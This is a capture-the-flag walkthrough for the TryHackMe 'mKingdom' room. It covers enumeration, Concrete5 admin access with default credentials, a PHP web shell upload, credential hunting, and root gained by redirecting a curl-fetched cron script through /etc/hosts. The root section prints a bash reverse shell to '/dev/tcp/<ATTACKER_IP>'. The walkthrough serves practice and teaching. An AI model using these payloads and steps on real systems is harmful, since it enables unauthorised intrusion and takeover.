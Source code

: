 ```yaml
---
title: "THM: mKingdom"
date: 2025-03-04
categories: [CTF, Red Team]
tags: [CTF, Red Team]
permalink: /posts/ctf-mkingdom
image:
  path: /assets/img/thumbnails/ctf-mkingdom.png
---
```




### **Walkthrough**

#### **CTF Platform**: TryHackMe  
#### **Level**: Easy  

#### **Tools Used**:

- Nmap
- Gobuster
- Burp Suite
- RevShells
- LinPEAS
- Pspy64
- Python HTTP Server
- Netcat

#### **Resources Used:**:

- [Tryhackme](https://tryhackme.com/room/mkingdom)
- [Vulners - Concrete5 Exploit](https://vulners.com/hackerone/H1:768322)
- [RevShells Payload Generator](https://www.revshells.com/)
- [LinPEAS Script](https://linpeas.sh/)
- [Pspy64 Tool](https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64)
- [DarkReading - Common Default Passwords](https://www.darkreading.com/perimeter/top-10-admin-passwords-to-avoid)


## **Steps for the CTF**

---

### 1. Enumeration

#### NMAP:
The first step in any CTF is enumeration. Start by scanning the target machine using `nmap` to identify open ports and services running on them.

**Hint:** Use the following command to perform a detailed scan:
```bash
nmap -sC -sV -p- <TARGET_IP>
```

**Observation:** The scan results should reveal an open port hosting a web service.

#### WEB:
Access the web page hosted on the open port via a browser. You’ll notice a defaced page with no significant information in the source code.

**Next Steps:**
- Perform directory enumeration using tools like `gobuster`.
- Look for hidden directories or files that might provide clues.

**Hint:** Use the following command for directory enumeration:
```bash
gobuster dir -u http://<TARGET_IP>:<PORT> -w /path/to/wordlist.txt
```

**Discovery:**
- A `/app` directory contains a button redirecting to `/app/castle`.
- Manual inspection of the page reveals the CMS in use: "Concrete5" version 8.5.2.

**Research:** Look for exploits related to the identified CMS version. Pay attention to any requirements (e.g., admin login).

---

### 2. Exploitation

#### Accessing the CMS Admin Panel:
At the bottom of the webpage, you’ll find a link to the CMS login menu. Research default passwords for the CMS and attempt to log in.

**Hint:** Avoid brute-forcing as it may lead to IP blocking. Try common default credentials instead.

**After Logging In:**
- Modify the CMS settings to allow `.php` file uploads.
- Generate a reverse shell payload using [RevShells](https://www.revshells.com/) and upload it via the CMS file manager.
- Set up a listener on your attacking machine using `netcat`.

**Triggering the Payload:**
- Access the uploaded payload URL to execute the reverse shell.
- You should now have a shell as the `www-data` user.

---

### 3. Privilege Escalation

#### Enumerating Users:
Inspect the `/etc/passwd` file to identify potential users. Additionally, search for sensitive files such as database configuration files.

**Hint:** Look for files containing credentials. For example:
```bash
grep -ri "password" /var/www/html/
```

**Fixing the Terminal:**
To switch users, you’ll need an interactive terminal. Use the following commands to upgrade your reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
export TERM=xterm-256color
```

**Switching Users:**
Use the discovered credentials to switch to another user account.

#### Using LinPEAS:
Run the `linpeas.sh` script to identify privilege escalation vectors. Host the script on your machine using a Python HTTP server and download it to the target machine.

**Hint:** Look for unusual environment variables or encoded strings in the output.

**Decoding Secrets:**
If you find a base64-encoded string, decode it to uncover potential passwords.

**Switching to Another User:**
Use the decoded password to switch to another user account.

---

### 4. Root Access

#### Monitoring Processes:
Use the `pspy64` tool to monitor running processes. Look for recurring tasks or scripts executed by privileged users.

**Hint:** Pay attention to scripts fetched via `curl`. If the domain resolves locally, you can manipulate the `/etc/hosts` file to redirect traffic to your attacking machine.

**Crafting a Malicious Script:**
Create a malicious script mimicking the original task’s structure and serve it using a Python HTTP server.

**Payload Example:**
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

**Triggering the Task:**
Wait for the scheduled task to execute your malicious script. This should grant you a reverse shell as the root user.

---

### 5. Capturing Flags

Once you have root access, locate the flags on the system. Note that some flags may require specific commands to read.

**Hint:** Experiment with different commands (`head`, `tail`, etc.) if `cat` doesn’t work.
